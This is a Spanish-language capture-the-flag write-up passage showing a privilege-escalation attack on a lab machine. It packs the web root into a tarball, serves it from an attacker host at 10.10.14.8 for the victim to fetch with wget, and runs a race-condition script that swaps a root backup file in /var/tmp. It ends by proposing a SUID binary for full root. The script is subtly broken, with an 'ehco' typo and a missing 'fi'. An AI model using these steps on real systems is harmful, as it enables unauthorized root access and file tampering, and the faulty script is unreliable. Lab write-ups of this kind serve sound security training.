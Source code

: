 1. creamos un nuevo comprimido

    ```bash
    cd ../../..
    tar -zcvf comprimido.tar var/www/html
    ```

1. enviamos el comprimido a la maquina victima

    - en la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        wget http://10.10.14.8/comprimido.tar
        ```

1. creamos un script para ejecutar el secuestro

    ```bash
    touch tehijackeolavida.sh
    chmod +x tehijackeolavida.sh
    nano tehijackeolavida.sh
    ```

    que contiene

    ```bash
    #!/bin/bash

    while true; do
        filename=$(ls -ls /var/tmp/ | awk 'NF{print $NF}' | grep -oP '^\..*[a-f0-9]')

        if [ $filename ]; then
            ehco -e "\n[+] El nombre de archivo es $filename\n"
            rm /var/tmp/$filename
            cp comprimido.tar /var/tmp/$filename
            echo -e "\n[+] Archivo hijiackeado con exito\n"
            exit 0
    done
    ```

1. Ejecutamos el script 

    ```bash
    ./tehijackeolavida.sh
    ```

Cuando la pantalla nos muestre el mensaje `[+] Archivo hijackeado con exito`, podemos mirar el fichero `/var/backup/onuma_backup_error.txt` 
y 30 segundos mas tarde tendriamos que ver la flag.

```bash
while true; do cat /var/backup/onuma_backup_error.txt ; sleep 1; clear; done
```

Ya podemos ver la flag.

### Rootear la maquina de verdad {-}

Podríamos crear un binario en C con SUID para que lo deposite root en html, lo que nos permitiria rootear la maquina.